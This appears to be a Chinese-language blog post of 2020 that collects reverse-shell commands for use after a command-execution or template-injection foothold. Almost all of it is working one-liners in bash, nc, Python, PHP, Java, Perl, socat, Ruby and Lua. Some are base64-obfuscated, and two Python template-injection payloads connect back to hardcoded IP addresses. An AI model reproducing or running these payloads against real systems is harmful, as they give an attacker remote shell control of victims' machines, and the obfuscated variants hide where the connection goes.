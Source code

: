 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      记录一些反弹shell的指令               # 标题 
subtitle:    一篇水文 #副标题
date:       2020-01-12              # 时间
author:     Von                      # 作者
header-img: img/post-bg-universe.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - Linux

---
```


# 什么是反弹shell
反弹shell在我看来就是攻击者输入命令，命令在被攻击端执行，并将执行后得到的结果回显到攻击端的过程。  
在目前看来似乎主要用在命令执行上，当网页没有直接回显时我们可以使用反弹shell在我们自己服务端对被攻击端执行代码。  
关于反弹shell的主要原理我就不在这细讲了。具体的可以看这几篇文章:  

[panda1g师兄的文章1](https://panda1g1.github.io/%2F2018%2F10%2F06%2Flinux%E9%87%8D%E5%AE%9A%E5%90%91%2F)  
[panda1g师兄的文章2](https://panda1g1.github.io/%2F2018%2F10%2F06%2Flinux_%E5%8F%8D%E5%BC%B9shell%2F)  
[K0rz3n师兄的文章1](https://www.k0rz3n.com/2018/08/05/Linux%E5%8F%8D%E5%BC%B9shell%EF%BC%88%E4%B8%80%EF%BC%89%E6%96%87%E4%BB%B6%E6%8F%8F%E8%BF%B0%E7%AC%A6%E4%B8%8E%E9%87%8D%E5%AE%9A%E5%90%91/)  
[K0rz3n师兄的文章2](https://www.k0rz3n.com/2018/08/05/Linux%20%E5%8F%8D%E5%BC%B9shell%20%EF%BC%88%E4%BA%8C%EF%BC%89%E5%8F%8D%E5%BC%B9shell%E7%9A%84%E6%9C%AC%E8%B4%A8/)  

# 反弹shell的指令
本文仅记录一些反弹shell的指令:
## bash反弹shell
```
bash -i &> /dev/tcp/ip/port 0>&1
```
## nc反弹shell
### nc支持-e
```
nc -e /bin/bash ip port 
```
### nc不支持-e
由于-e命令太危险，很多nc在安装时就已经把-e命令去掉了.我们可以采用监听两个端口来解决。  
攻击机:
```
nc -l -vv -p port1
nc -l -vv -p port2 
```
受害机:
```
nc ip port1 |/bin/bash| nc ip port2
```

## python反弹shell
``` python
python -c
"
import socket,subprocess,os;
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(('ip',port));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p = subprocess.call(['/bin/bash','-i']);
"
```
也可以这样写:
``` python
python -c "exec(\'aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zICAgICAgOyAgICBob3N0PSIzOS4xMDguMTgwLjE3MSIgICAgICA7ICAgIHBvcnQ9NTY3ODkgICAgICA7ICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pICAgICAgOyAgICBzLmNvbm5lY3QoKGhvc3QscG9ydCkpICAgICAgOyAgICBvcy5kdXAyKHMuZmlsZW5vKCksMCkgICAgICA7ICAgIG9zLmR1cDIocy5maWxlbm8oKSwxKSAgICAgIDsgICAgb3MuZHVwMihzLmZpbGVubygpLDIpICAgICAgOyAgICBwPXN1YnByb2Nlc3MuY2FsbCgiL2Jpbi9iYXNoIik=\'.decode(\'base64\'))"
```


## php反弹shell
``` php
PHP -f 
$s = fsockopen("ip",port);
exec('/bin/bash -i  0>&3 1>&3 2>&3');
```
(注意单双引号)

## java反弹shell
``` java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.31.41/8080;
cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## perl反弹shell
``` perl
perl -e 'use Socket;$i="192.168.31.41";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## SSTI反弹shell
``` python
{{[].__class__.__base__.__subclasses__()[59]().__getattribute__('_module').__getattribute__('linecache').__getattribute__('o'+'s').__getattribute__('sys'+'tem')("python -c 'i"+"mport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"47.103.22.65\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'")}}
```
也可以这样写:
``` python
[].__class__.__mro__[-1].__subclasses__()[71].__init__.__globals__['os'].system('python -c "exec(\'aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zICAgICAgOyAgICBob3N0PSIzOS4xMDguMTgwLjE3MSIgICAgICA7ICAgIHBvcnQ9NTY3ODkgICAgICA7ICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pICAgICAgOyAgICBzLmNvbm5lY3QoKGhvc3QscG9ydCkpICAgICAgOyAgICBvcy5kdXAyKHMuZmlsZW5vKCksMCkgICAgICA7ICAgIG9zLmR1cDIocy5maWxlbm8oKSwxKSAgICAgIDsgICAgb3MuZHVwMihzLmZpbGVubygpLDIpICAgICAgOyAgICBwPXN1YnByb2Nlc3MuY2FsbCgiL2Jpbi9iYXNoIik=\'.decode(\'base64\'))"')
```

## socat反弹shell
``` socat
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<你的IP>:<你的端口>
```

## ruby反弹shell
``` ruby
ruby -rsocket -e'f=TCPSocket.open("<你的IP>",<你的端口>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### 不依赖于/bin/sh的shell
``` ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("<你的IP>","<你的端口>");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### 如果目标系统运行Windows
``` ruby
ruby -rsocket -e 'c=TCPSocket.new("<你的IP>","<你的端口>");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## lua反弹shell
``` lua
lua -e "require('socket');require('os');t=socket.tcp();t:connect('<你的IP>','<你的端口>');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```



